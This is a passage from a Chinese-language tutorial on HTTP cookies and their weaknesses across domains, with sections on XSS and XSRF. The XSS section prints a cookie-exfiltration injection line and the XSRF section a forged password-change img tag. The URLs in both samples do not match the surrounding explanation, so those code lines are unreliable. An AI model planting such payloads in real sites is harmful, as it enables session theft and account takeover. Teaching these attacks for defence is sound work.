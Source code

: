 # HTTP Cookie

一个 HTTP Cookie（如网页 Cookie 或浏览器 Cookie）是一个服务器可以发送到客户端的非常简单的字典/键值存储。它是通过 `Set-Cookie` 头由服务器发送的。例如，一个 `Set-Cookie` 头可能看起来像这样：

```js
Set-Cookie: <cookie-name>=<cookie-value>; Domain=<domain-value>; Expires=<date>
```

可以在同一个响应消息中发送多个 `Set-Cookie` 头，以组成键值存储。

Cookie 的特别之处在于，大多数浏览器客户端都会在后续请求中自动将这个键值存储发送回去，这次是在 `Cookie` 头内部：

```js
Cookie: name1=value1; name2=value2
```

因此，如果我们使用 Cookie 在浏览器中存储用户的会话 ID，它将允许服务器确定请求是否来自同一客户端，因为 Cookie 中将包含相同的会话 ID。

Cookie 的 `Domain` 指令决定了客户端将为哪个域名（或子域名）设置 `Cookie` 头。例如，由 `abc.xyz` 设置的 Cookie 只会在客户端向 `abc.xyz` 发送请求时返回，而不会在请求将发送到 `foo.bar` 时返回。

虽然 Cookie 听起来是个好主意，但使用 Cookie 有很多缺点，尤其是在处理跨域和 CORS 的情况下。因为 Cookie 只适用于该域名（或其子域名），如果相关服务位于不同的域名下，它们将无法进行身份验证。例如，当我们的平台从简单的用户目录（部署在 `hobnob.social`）扩展到，比如说，一个活动组织应用（`hobnob.events`），并且我们希望让已经登录到 `hobnob.social` 的用户也能自动登录到 `hobnob.events`；由于 Cookie 是由不同域名设置的，这无法通过 Cookie 实现。

对于浏览器来说，Cookie 更加方便；对于非浏览器客户端来说，管理 Cookie 则更加麻烦。

此外，Cookie 也容易受到 **跨站脚本**（**XSS**）和 **跨站请求伪造**（**XSRF**）攻击。

# 跨站脚本（XSS）

跨站脚本（XSS）是指恶意方将一些 JavaScript 注入由服务器提供的页面中。例如，如果服务器没有对评论进行清理，那么恶意方可以写入以下评论：

```js
document.write('<img src="img/collect.gif?cookie=' + document.cookie + '" />')
```

`document.cookie` 是一个全局属性，包含为当前域名设置的所有的 cookie。因此，当下一个访问者访问您的网站时，他们将输出 `document.cookie` 的值，并将其作为查询字符串发送到 `some.malicious.endpoint`。一旦恶意方从访问者的 cookie 中获取到会话 ID 或令牌，他们就能冒充该用户。

# 跨站请求伪造（XSRF）

在 XSRF 的情况下，恶意方将尝试在受害者不知情的情况下向目标应用程序发送请求。例如，恶意方可能有一个位于 `malicious.com` 的网站，并包含以下定义的 `img` 标签：

```js
<img src="img/?newPassword=foobar">
```

现在，当受害者访问 `malicious.com` 时，他们的浏览器将向 `http://target.app/change-password/?newPassword=foobar` 发送一个 `GET` 请求，并附带该域的任何 cookie。因此，如果用户已经在另一个浏览器标签中进行了认证，那么这个 `GET` 请求就会像是由用户发起的一样被接收。

跨站脚本（XSS）是 OWASP 基金会十大应用安全风险之一。您可以在 OWASP 网站上了解更多关于 XSS 的信息([owasp.org/index.php/Top_10-2017_A7-Cross-Site_Scripting_(XSS)](https://www.owasp.org/index.php/Top_10-2017_A7-Cross-Site_Scripting_(XSS))). 类似地，XSRF 在 OWASP 上也有一个页面([owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF))).
